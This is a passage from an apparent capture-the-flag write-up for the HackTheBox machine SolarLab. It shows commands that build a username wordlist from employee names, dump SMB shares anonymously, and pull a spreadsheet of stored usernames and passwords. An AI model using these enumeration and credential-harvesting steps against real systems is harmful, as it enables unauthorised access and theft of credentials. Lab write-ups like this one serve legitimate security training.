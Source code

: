 ```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ cat users_80.txt
Alexander Knight
Claudia Springer
Blake Byte
```

- Generate potential usernames

```bash
/opt/sectools/misc/username-anarchy/username-anarchy -i users_80.txt > users_80_wordlist.txt
```

### 445 - SMB : Creds in shares

Dump smb shares

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ /home/kali/scripts/utils/dump_smb.sh $(pt get rhost) 'a' ''
getting file \desktop.ini of size 278 as desktop.ini (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \details-file.xlsx of size 12793 as details-file.xlsx (10.7 KiloBytes/sec) (average 5.5 KiloBytes/sec)
getting file \old_leave_request_form.docx of size 37194 as old_leave_request_form.docx (24.9 KiloBytes/sec) (average 13.0 KiloBytes/sec)
getting file \concepts\Training-Request-Form.docx of size 161337 as concepts/Training-Request-Form.docx (107.1 KiloBytes/sec) (average 39.3 KiloBytes/sec)
getting file \concepts\Travel-Request-Sample.docx of size 30953 as concepts/Travel-Request-Sample.docx (25.8 KiloBytes/sec) (average 36.8 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \My Music\*
NT_STATUS_ACCESS_DENIED listing \My Pictures\*
NT_STATUS_ACCESS_DENIED listing \My Videos\*
```

Upon those documents, found one that contains passwords and usernames: `/Documents/details-file.xlsx`

![](/assets/obsidian/fc98b040152466f4b5987a70f53830ad.png)

> `passwords_xlsx.txt`

